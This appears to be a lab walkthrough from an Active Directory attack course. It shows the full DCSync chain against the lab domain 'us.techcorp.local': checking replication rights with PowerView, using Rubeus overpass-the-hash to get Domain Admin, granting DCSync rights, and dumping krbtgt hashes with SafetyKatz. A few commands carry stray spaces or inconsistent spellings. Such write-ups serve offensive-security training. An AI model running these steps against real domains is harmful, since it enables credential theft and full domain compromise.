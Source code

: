 
− Check if studentuserx has Replication (DCSync) rights. 
− If yes, execute the DCSync attack to pull hashes of the krbtgt user. 
− If no, add the replication rights for the studentuserx and execute the DCSync attack to pull hashes of the krbtgt user.


We can check if studentuser139 has replication rights using the following PowerView command. Use it from InvisiShell:

Powerview:

```
Get-DomainObjectAcl -SearchBase "dc=us,dc=techcorp,dc=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replicationget') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "studentuser139"}
```

We got no output as studentuser139 does not have the replication rights. But,

We can add those rights with Domain Administrator privileges! Using Overpass-the-hash, let's run a command prompt with DA privileges:

```
echo %Pwn% asktgt
```

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:administrator /aes256:db7bd8e34fada016eb0e292816040a1bf4eeb25cd3843e041d0278d30dc1b335 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

In the new process, use either PowerView:

```
Add-DomainObjectAcl -TargetIdentity "dc=us,dc=techcorp,dc=local" -PrincipalIdentity studentuser139 -Rights DCSync - PrincipalDomain us.techcorp.local -TargetDomain us.techcorp.local -Verbose
```

Use the Active Directory module with Set-ADACL from RACE as Domain Admin:

```
Set-ADACL -DistinguishedName 'DC=us,DC=techcorp,DC=local' - SamAccountName studentuser139 -GUIDRight DCSync -Verbose
```

Let’s check for the rights once again from a normal shell:

```
Get-DomainObjectAcl -SearchBase "dc=us,dc=techcorp,dc=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights - match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "studentuser139"}
```

Sweet! Now, below commands can be used as studentuser139 to get the hashes of krbtgt user:

```
echo %Pwn% lsadump::dcsync
```

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "%Pwn% /user:us\krbtgt" "exit"
```

![[Pasted image 20250319115648.png]]


